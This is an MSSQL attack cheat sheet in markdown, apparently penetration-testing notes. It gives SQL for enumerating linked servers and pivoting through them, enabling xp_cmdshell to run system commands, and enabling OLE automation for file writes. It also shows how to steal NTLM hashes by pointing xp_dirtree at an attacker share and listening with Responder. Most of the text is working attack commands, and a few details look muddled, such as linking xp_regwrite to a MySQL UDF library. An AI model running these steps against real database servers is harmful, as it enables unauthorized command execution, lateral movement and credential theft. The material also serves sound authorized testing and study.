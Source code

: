 vectors: xpcmd, linked server pivot, hash steal, sql user impersonation

### Linked Server Enumeration

```sql

-- List linked servers

SELECT srvname, isremote FROM sysservers;

GO

```

- `isremote = 1` remote server

- `isremote = 0` trusted linked server
### Check Users & Privileges

```sql
-- Current user

SELECT user_name();

-- List status and admins
SELECT name, sysadmin FROM syslogins;

```

  

### Run Queries on Linked Servers

```sql

-- Run query on linked server

EXEC ('SELECT current_user') AT [<DOMAIN>\<CONFIG_FILE>];

EXEC ('SELECT srvname,isremote FROM sysservers') AT [<DOMAIN>\<CONFIG_FILE>];

EXEC ('EXEC (''SELECT suser_name()'')') AT [<DOMAIN>\<CONFIG_FILE>];

```

---

### 1. Test `xp_cmdshell`

```sql

EXEC sp_configure 'show advanced options', 1;

RECONFIGURE;

EXEC sp_configure; -- check if xp_cmdshell is enabled

EXEC sp_configure 'xp_cmdshell', 1;

RECONFIGURE;

EXEC xp_cmdshell "whoami";

```


### 2. Enable `xp_cmdshell` (if permitted)

```sql

EXEC sp_configure 'show advanced options', 1;

RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;

RECONFIGURE;

```

---

## Privilege Escalation

- `xp_regwrite` can use User Defined Functions (UDFs) for execution (rare in prod).

- Example: [`lib_mysqludf_sys`](https://github.com/mysqludf/lib_mysqludf_sys).
---

  

## Linked Servers (Pivoting)
  

- Linked servers let SQL execute queries on remote DBs.

- Example:

```sql

EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin''))') AT [10.0.0.12\SQLEXPRESS];

```

---
  
## Hash Theft (Relay MSSQL)

  

- Use **undocumented procs**: `xp_dirtree`, `xp_subdirs`.
- These trigger **SMB auth** then use procedures to create/write files.

---

  
# Cheat Sheet
  

- **Enum linked servers:** `SELECT srvname,isremote FROM sysservers;`

- **Check users:** `SELECT user_name();` / `SELECT name, sysadmin FROM syslogins;`

- **Linked server exec:** `EXEC('SELECT suser_name()') AT [server];`

- **Test cmd exec:** `xp_cmdshell "whoami";`

- **Enable xp_cmdshell:** `sp_configure 'xp_cmdshell',1; RECONFIGURE;`

- **Steal hash:** `EXEC master..xp_dirtree '\attacker\share\';`

- **Responder listener:** `sudo responder -I tun0`

- **Enable file write:** `sp_configure 'Ole Automation Procedures',1; RECONFIGURE;`